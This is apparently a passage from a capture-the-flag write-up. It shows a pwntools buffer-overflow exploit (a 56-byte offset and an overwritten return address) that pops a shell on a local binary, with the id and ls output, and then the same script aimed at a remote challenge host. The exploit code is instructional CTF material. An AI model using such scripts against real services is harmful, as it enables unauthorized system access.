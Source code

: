 ```
io.send('\n')

#Gives an interactive shell
io.interactive()
```

Now I'll run it 

```
└─$ python2 exploit.py 
[+] Starting local process './chall': pid 11701
[*] Switching to interactive mode
Pop Shell Buddy
Hey wait who are you: $ 
$ id
uid=1000(mark) gid=1000(mark) groups=1000(mark),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),119(wireshark),121(bluetooth),137(scanner),142(kaboxer)
$ 
$ whoami
mark
$ ls
boi  chall  exploit.py    getit  justdoit  pwn1  santa  secret  vulnchat    warmup
$ 
```

It worked cool

So i'll run it on the remote target now

Here's the script

```
#Imports all pwntool library
from pwn import *

#Starts the binary 
#io = process('./chall')
io = remote('13.127.20.4', 1234)

#Creates the offset and the address we want to return to 
offset = b"A"*56
add = p64(0x00000000004011fd)
payload = offset + add

#Send the payload
io.send(payload)
io.send('\n')

#Gives an interactive shell
io.interactive()
```

On running it 
